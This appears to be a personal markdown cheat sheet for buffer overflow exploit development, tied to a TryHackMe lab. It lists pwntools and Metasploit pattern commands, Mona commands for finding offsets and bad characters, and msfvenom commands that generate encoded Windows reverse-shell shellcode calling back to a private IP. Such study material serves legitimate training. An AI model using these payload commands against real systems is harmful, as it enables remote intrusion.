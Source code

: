 # Generating unique patterns
buffer overflow stuff

## cyclic patterns
```
from pwn import *
cyclic(3000)
cyclic_find('abdd')
out[100] 2907
```


OR
```
cyclic_metasploit(3000)
cyclic_metasploit_find(0x33794332) 
```
OR

```
msf-pattern-create -l 3000
msf-pattern-offset -l 3000 -q 33794332

```
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

## Mona CheatSheet

**Setup your working directory**

`!mona config -set workingfolder c:\mona\%p`

<br>
<br>

`!mona findmsp -distance 600 `

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb  -l 2400 -q 6F43396E`



**Generate a byte array**

`!mona bytearray -b "\x00"`

<br>
<br>

**Run your fuzzer till a crash**

**compare your stuff**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

**Add newly found bad chars to your list to be removed, and regenerate your badchars list**

`!mona bytearray -b "\x00\x0a"`

<br>
<br>

**Resend the new list of badchars, and then compare again**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

## MSF Payloads

`msfvenom -l payloads `

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a" > shelloutput1.txt`

`sed -z 's/\n//g' shelloutput1.txt | sed -z 's/"//g' - `

https://tryhackme.com/room/bufferoverflowprep 

https://www.youtube.com/watch?v=1X2JGF_9JGM 
